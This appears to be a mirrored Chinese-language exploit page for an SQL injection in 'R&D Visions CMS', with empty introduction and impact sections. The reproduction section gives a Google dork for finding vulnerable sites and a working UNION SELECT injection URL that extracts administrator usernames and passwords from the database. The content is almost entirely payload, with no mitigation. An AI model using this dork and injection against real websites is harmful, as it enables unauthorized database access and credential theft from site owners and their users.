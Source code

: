 # R&D Visions CMS SQL Injection

> 原文：[https://www.zhihuifly.com/t/topic/3101](https://www.zhihuifly.com/t/topic/3101)

# R&D Visions CMS SQL Injection

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

Google Dork:

```
intext:"Website by R&D Visions" inurl:.php?id= `intext:“CMS System by R&D Visions”` 
```

Demo:

```
https://www.0-sec.org/home.php?newid=53[SQLi] 
```

Injection:

```
https://www.0-sec.org/home.php?newid=-53+Union+Select+1,Group_ConCat(user,0x3a,pass),3,4,5,6,7,8,9,10,11,12+From+admin_user_log--+ 
```
